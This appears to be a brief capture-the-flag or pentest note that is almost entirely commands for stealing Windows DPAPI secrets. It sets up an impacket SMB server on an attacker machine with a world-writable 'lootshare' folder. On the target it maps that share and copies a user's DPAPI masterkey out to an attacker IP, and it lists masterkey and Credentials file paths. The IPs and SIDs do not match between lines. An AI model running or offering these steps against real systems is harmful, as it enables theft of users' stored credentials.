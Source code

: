 
### My machine

```shell

sudo rm -rf /tmp/lootshare
mkdir -p /tmp/lootshare
sudo chown $(whoami):$(whoami) /tmp/lootshare
chmod 777 /tmp/lootshare
ls -ld /tmp/lootshare

sudo /home/slom/.local/bin/smbserver.py share /tmp/lootshare -smb2support -username a -password 'a'

```
or
```sh
mkdir -p share
chmod 777 share

sudo impacket.smbserver share ./share -smb2support -user 'a' -password 'a' 

```

### Target
```powershell

net use * /delete /y

net use \\10.10.16.41\share /user:a a
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-127" \\10.10.16.94\share\masterkey_blob
```

C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1105\1038bdea-4935-41a8-a224-9b3720193c86
C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D
